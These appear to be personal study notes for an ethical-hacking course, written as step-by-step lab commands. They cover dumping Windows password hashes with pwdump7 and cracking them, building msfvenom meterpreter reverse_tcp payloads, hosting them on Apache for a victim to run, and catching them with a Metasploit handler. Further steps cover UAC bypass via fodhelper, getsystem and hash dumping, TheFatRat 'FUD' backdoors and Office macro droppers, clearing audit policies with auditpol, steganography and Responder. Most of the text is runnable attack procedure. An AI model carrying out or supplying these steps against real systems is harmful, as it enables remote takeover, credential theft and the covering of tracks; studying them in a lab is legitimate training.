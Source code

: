 Tools Used 
1) **pwdump7.exe** this will show all the password hashes and password
	1) `pwdump7.exe > C:\hashes.txt`
2) Download ophcracl.exe load the hashes and choose vista free and complete the hashcracking
3) Tools to create for rainbow tables 
	1) winrtgen 
		1) click add table
		2) for hash select NTLM 
		3) Min length as 4 Max  length as 6 chain count as 400000
		4) charset lower alpha 

4) command for payload   `msfvenom -p windows/meterpreter/reverse_tcp  --platform windows -a x86 -f exe LHOST=kali_IP LPORT=listening_port -o /root/Desktop/Test.exe` 
5)  create a folder ` mkdir /var/www/html/share`  and then `chmod -R 755 /var/www/html/share` 

7) change the ownership of the folder to www-data by `chown -R www-data:www-data /var/html/share`
8) `cp /root/Desktop/Test.exe  /var/www/html/share` 
9) service apache2 start
10) msfconsole , use exploit/multi/handler,  set payload windows/meterpreter/reverse_tcp  , set lport to 4444 , run
11) Go to victim download and run and done 
12) in meterpreter shell type  `run vnc`



Escalating privs

1) On kali 
	1) `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86/shikata_ga_nai -b "\x00" LHOST=victim_IP -f exe > Desktop/exploit.exe`
	2) repeat the steps 5 to 7 and replace Test.exe with exploit.exe 
	3) `ls -la /var/www/html/ | grep share`
	4) service apache2 start 
	5) repeat steps 10-11 and 
	6) shell background 
	7) use exploit/windows/local/bypassuac_fodhelper
	8) show options set payload w/m/r_tcp
	9) then getsystem 
	10) run post  windows/gather/smart_hashdump 






**Steganography**
Tools
1) Snow
	1) create a file readme.txt
	2) then using snow type 
		1) `snow -C "My swiss bank number is  34567" -p "magic" readme.txt readme2.txt ` here magic is the password 
	2) to read the file readme2.txt 
			1) `snow -C -p "magic" readme.txt `


2) **Openstego** 
 for hiding
	1) choose the file to be encrypted 
	2) choose the document to be encrypted in
	3) done
for extracting 
	1) choose the encrypted file choose the location done


3) **QuickStego** 
	1) for hiding again choose the image , choose the text file done
	2) for extracting just open the encrypted image


**Auditpol**
	1) in CMD type `auditool /get /category:*`
	2) To enable the audit policies type `auditpol /set /category:"system","account login" /success:enable /failure:enable` 
	3) to clear all the audit policies type the following command `auditpol /clear /y`


**CovertTCP**
1) in kali 
2) create folder in desktop 
3) type  `echo "Secret Messsage" > message.txt` 
4) go to files -> other locations -> in address field type `smb://IP/`
5) timming on youtube 1:50:00 -- 2:12:00
6)



**Fatrat**
1) choose 6 create a Fud  backdoor 1000% with pwnWinds 
2) the choose 3 exe with apache + powershell 
3) for LHOST type kali IP and LPORT 4444 
4) in base files enter payload 
5) choose `windows/meterpreter/reverse_tcp` 
6) press enter 2-3 times then press 8 to go to main menu 
7) choose 7 create backdoor with Ms office 
8) then choose 2 microsoft office macro on windows 
9) Set kali IP and port number 
10) for base name in output file type badDoc 
11) type y
12) in the Path /root/Fatrat/output/payload.exe 
13) choose payload as step 5
14) create /var/www/html/share then similar steps service apache2 start ................




**Responder**

1) responder -I eth0 
2) go the windows run `\\CEH-TOOLS` 




https://www.youtube.com/watch?v=m_EyLhcoDIE&list=PLrrgFyE6PtlaCixUxJPM0Y9Peye6iCewH&index=4